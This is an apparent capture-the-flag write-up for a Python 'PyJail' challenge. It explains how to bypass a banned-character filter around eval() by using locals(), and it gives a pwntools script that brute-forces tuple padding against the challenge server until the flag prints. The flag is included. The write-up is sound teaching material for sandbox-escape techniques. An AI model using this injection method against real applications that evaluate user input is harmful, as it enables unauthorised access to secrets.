

# misc/JailBreak 2

<p align = "center"></p>

<details> 
  <summary><b>Hint 1</b></summary>
   What in python is evaluated to a number?
</details>

This is the second of three PyJail challenges in this CTF. For all three challenges, the flag is initialized as a local variable.

```python
flag = open('flag.txt').read().strip()
```

For this challenge, we get to input a message. While the first challenge uses `exec()` on our message, this challenge uses `eval()` instead, and is much easier as it prints out the output for you.

Before our message is evaluated, we would need to bypass the banned character list as shown below:

```python
BANNED_CHARS = "gdvxfiyundmnet/\\'~`@#$%^&.{}0123456789"
```

just like JailBreak 1, we will use `locals()` as it is not blacklisted. Next, we notice a length constraint after the `eval()`, where `len(eval(msg)) == len(flag)`. We can do a trial-and-error, where we store `locals()` in a tuple and increase the tuple size until it is equal to the length of the flag.

```python
from pwn import *

payload = '(locals(), '
end_payload = ')'

i = 1
while True:
    payload += '"", '
    final_payload = (payload + end_payload).encode()

    p = remote("challs.bcactf.com", 30335)

    p.recvuntil(b"message:")
    p.sendline(final_payload)
    received = b""
    while b"Deleted!" not in received and b"flag" not in received:
        received += p.recv(4096)
    if b"flag" in received:
        print(received)
        break

    p.close()

    i += 1
```

We then obtain the flag as such:

```
bcactf{PyTH0n_M4st3R_Pr0veD}
```
